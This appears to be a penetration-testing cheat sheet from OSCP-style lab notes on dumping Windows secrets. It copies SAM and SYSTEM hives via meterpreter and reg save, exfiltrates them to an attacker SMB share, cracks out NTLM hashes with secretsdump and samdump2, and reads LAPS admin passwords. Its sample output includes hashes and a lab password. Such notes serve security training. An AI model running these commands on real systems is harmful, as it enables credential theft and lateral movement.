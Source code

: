 # Dumping Secrets

If we ever come across a windows.old, it's a good idea to extract the SAM & SYSTEM files.&#x20;

If we have privileged access we can make a copy of the SAM & SYSTEM registry files.

## Extracting SAM & SYSTEM with Metasploit

```
meterpreter > download "C:\windows.old\windows\System32\SAM"
[*] Downloading: C:\windows.old\windows\System32\SAM -> /home/kali/Documents/Prep/OSCP-A/MS02/SAM
[*] Downloaded 56.00 KiB of 56.00 KiB (100.0%): C:\windows.old\windows\System32\SAM -> /home/kali/Documents/Prep/OSCP-A/MS02/SAM
[*] Completed  : C:\windows.old\windows\System32\SAM -> /home/kali/Documents/Prep/OSCP-A/MS02/SAM

```



```
meterpreter > download "C:\windows.old\windows\system32\SYSTEM"
[*] Downloading: C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 1.00 MiB of 11.10 MiB (9.01%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 2.00 MiB of 11.10 MiB (18.02%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 3.00 MiB of 11.10 MiB (27.03%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 4.00 MiB of 11.10 MiB (36.04%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 5.00 MiB of 11.10 MiB (45.05%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 6.00 MiB of 11.10 MiB (54.07%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 7.00 MiB of 11.10 MiB (63.08%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 8.00 MiB of 11.10 MiB (72.09%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 9.00 MiB of 11.10 MiB (81.1%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 10.00 MiB of 11.10 MiB (90.11%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 11.00 MiB of 11.10 MiB (99.12%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Downloaded 11.10 MiB of 11.10 MiB (100.0%): C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM
[*] Completed  : C:\windows.old\windows\system32\SYSTEM -> /home/kali/Documents/Prep/OSCP-A/MS02/SYSTEM

```



##

## Extracting SAM & SYSTEM with reg.exe

With elevated privileges we can create a copy of SAM & SYSTEM files from the registry with reg.exe

```
reg save hklm\sam C:\temp\SAM
reg save hklm\system C:\temp\SYSTEM
```

### Exfiltrate via SMB

We can start an SMB server on our kali box with impacket's smbserver and copy the files to our local machine

```shell-session
kali@kali$ impacket-smbserver share . -smb2support
```

### copy files to kali

```powershell
copy .\SAM \\172.16.1.30\share
copy .\SYSTEM \\172.16.1.30\share
```



## Extracting Hashes with secretsdump and samdump2



### impacket-secretsdump

```shell-session
└─$ impacket-secretsdump -sam SAM -system SYSTEM LOCAL 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x8bca2f7ad576c856d79b7111806b533d
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:acbb9b77c62fdd8fe5976148a933177a:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:4979d69d4ca66955c075c41cf45f24dc:::
Cheyanne.Adams:1002:aad3b435b51404eeaad3b435b51404ee:b3930e99899cb55b4aefef9a7021ffd0:::
David.Rhys:1003:aad3b435b51404eeaad3b435b51404ee:9ac088de348444c71dba2dca92127c11:::
Mark.Chetty:1004:aad3b435b51404eeaad3b435b51404ee:92903f280e5c5f3cab018bd91b94c771:::
[*] Cleaning up... 
                                                                                                                                                      

```



### samdump2

```shell-session
└─$ samdump2 SYSTEM SAM         
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
tom_admin:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1002:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
:1004:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```





## Local Administrator Password Solution (LAPS)

LAPS is a Windows service that randomizes and stores Local Admin passwords. It's granted to specific users that have access to Read / Write like regular files.

If we have access to read LAPS we can extract the password as follows:

```powershell
PS> Get-ADComputer DC01 -property 'ms-mcs-admpwd'

DistinguishedName : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
DNSHostName       : dc01.timelapse.htb
Enabled           : True
ms-mcs-admpwd     : @yvkjZSgddd-t32UkJ-Z7wPL
Name              : DC01
ObjectClass       : computer
ObjectGUID        : 6e10b102-6936-41aa-bb98-bed624c9b98f
SamAccountName    : DC01$
SID               : S-1-5-21-671920749-559770252-3318990721-1000
UserPrincipalName :


```



### PowerView

We can also view the LAPS password using PowerVIew.

```powershell
Get-DomainComputer "MachineName" -Properties 'cn','ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
```
